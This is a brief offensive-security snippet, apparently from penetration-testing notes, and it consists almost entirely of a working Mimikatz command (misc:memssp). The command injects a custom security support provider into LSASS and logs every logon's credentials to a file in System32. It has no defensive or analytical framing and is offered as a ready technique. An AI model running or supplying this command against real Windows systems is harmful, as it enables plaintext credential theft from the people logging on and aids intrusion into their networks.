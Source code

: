 # Custom SSP - Track logons

### **Use Mimikatz to inject into LSASs**

all logons are logged to C:\Windows\System32\kiwissp.log

```
Invoke-Mimikatz -Command '"misc:memssp"'
```
